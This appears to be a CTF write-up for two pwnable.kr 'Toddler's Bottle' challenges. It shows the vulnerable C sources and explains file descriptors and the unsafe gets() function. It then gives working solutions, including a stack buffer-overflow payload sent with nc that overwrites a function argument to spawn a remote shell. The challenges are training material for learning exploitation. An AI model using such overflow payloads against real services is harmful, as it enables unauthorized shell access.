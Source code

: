 +++
title = "pwnable.kr - Toddler's Bottle"
date = 2020-04-27T12:59:37.396Z
updated = 2020-04-27T13:02:48.347Z
aliases = ["/posts/5ea6d739cea15a083827d57f-pwnablekr-toddlers-bottle"]
[taxonomies]
tags = ['pwnable.kr', 'binary-exploitation', 'buffer-overflow', 'pwntools']
categories = ["ctf-writeups"]
+++

# fd - 1pt
## Challenge
> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Source Code

After ssh-ing into the server with the given details, we can view the source code of the challenge by running `cat fd.c`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

<!-- more -->

## File Descriptors

On POSIX systems, there are three standard file descriptors:

* Standard Input (stdin) which has a fd of `0`
* Standard Output (stdout) which has a fd of `1`
* Standard Error (stderr) which has a fd of `2`

## Solution

The program subtracts 0x1234 from a file descriptor we provide and then reads from it. If the read string is `LETMEWIN\n`, it gives us the flag. If we get the program to read from `stdin`, we can just type `LETMEWIN` into the terminal, and we will get the flag:

```bash
echo LETMEWIN | ./fd $(python -c "print 0x1234 + 0")
```

# bof - 5pt
## Challenge

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> 
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

## Source Code

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Background


### Stack Frames
The stack stores local variables and function parameters and is used to pass parameters with certain calling conventions. This diagram (taken from [Wikipedia](https://en.wikipedia.org/wiki/Call_stack)) shows an example stack layout:

{{ svg(path="5ea6d67bcea15a083827d578.svg") }}


### gets

The function `gets` is insecure and allows for buffer overflows when used because it only stops at new lines or EOF. The manpage for gets (`man gets`) says this:

> Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the  end  of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

## Solution

We need to overwrite the `key` parameter passed to `func`. To get there we will need to overwrite 36 bytes (`char overflowme[32]`, and the return address (4 bytes in 32-bit programs)). However, additional values are pushed onto the stack to save the previous location of the stack. Therefore, we have to place `0xcafebabe` at 52 bytes into the stack:

```bash
(python -c "print('A'*52 + '\xbe\xba\xfe\xca')" && cat - ) | nc pwnable.kr 9000
```

Note that `0xcafebabe` is encoded into a little-endian format, and `cat -` is used to allow us to communicate with the opened shell.
